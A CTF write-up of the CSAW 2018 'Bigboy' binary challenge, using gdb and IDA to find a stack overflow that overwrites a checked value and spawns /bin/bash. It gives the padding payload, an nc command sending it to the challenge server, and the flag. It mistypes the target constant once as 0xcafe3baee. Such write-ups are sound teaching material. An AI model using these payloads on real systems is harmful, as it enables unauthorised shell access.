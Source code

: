 ```yaml
---
layout: post
title: CSAW CTF 2018 - Bigboy
image: "/assets/img/2018/csawctf2018/bigboy/1.png"
categories: [general, csawctf2018]
tags: [csawctf2018, writeup]
twitter_text: "Write-up for Bigboy"
introduction: "Write-up for Bigboy"
description: "Write-up for Bigboy"
---
```


![](/assets/img/2018/csawctf2018/bigboy/1.png)

First let's run the program to see what the program is about.

![](/assets/img/2018/csawctf2018/bigboy/2.png)

Now let's go to gdb to analyse the file. To begin I disassemble the main function, and I see a call to a function which name is "run_cmd". So I disassemble it too.

![](/assets/img/2018/csawctf2018/bigboy/3.png)

![](/assets/img/2018/csawctf2018/bigboy/4.png)

In this function there is some pretty good stuff, a call system !!!

After this I used IDA PRO. In the main function we can see :

```
cmp eax, 0xcafe3baee
```

![](/assets/img/2018/csawctf2018/bigboy/5.png)

That mean that if rax = 0xcaf3baee, the program will jump to the function with the call system !

Let's see the pseudo-code if I am right :

![](/assets/img/2018/csawctf2018/bigboy/6.png)

So we have :

```
HIDWORD(v7)= 0xdeadbeef;
....
if (HIDWORD(v7) == 0xcaf3baee)
	run_cmd("/bin/bash", &buf);
else
....
```

We have to find the padding to erase the value 0xdeadbeef by 0xcaf3baee. This should give us a shell.


Return into gdb to set a breakpoint on the cmp eax, 0xcafe3baee.


![](/assets/img/2018/csawctf2018/bigboy/7.png)


Run it with any value :

![](/assets/img/2018/csawctf2018/bigboy/8.png)

The program stop at the breakpoint, print the eax register : 

![](/assets/img/2018/csawctf2018/bigboy/9.png)

The value of RAX is still 0xffffffffdeadbeef, so we haven't modified the value of eax because we don't have the good padding. After a few try I get the good padding :

```
r <<< $(python2 -c 'print "A"*20+"B"*4')
```

Go to the breakpoint, try to print eax again :

![](/assets/img/2018/csawctf2018/bigboy/10.png)

And we can see that we control rax with 0x42424242(BBBB in hex).

So we can run the program with the padding (20) and the modified value to have rax=0xcafe3baee and get a shell.


![](/assets/img/2018/csawctf2018/bigboy/11.png)


Print $rax, we can see that the register is at the good value to have the shell. Continue the program, and there you have your /bin/bash !!!

![](/assets/img/2018/csawctf2018/bigboy/12.png)

The last step is to send the command in remote to get the flag :

```
python2 -c 'print "A"*20+"\xee\xba\xf3\xca"' > commands.txt
cat commands.txt - | nc pwn.chal.csaw.io 9000
```
![](/assets/img/2018/csawctf2018/bigboy/13.png)

And we got the flag :

> Flag : flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
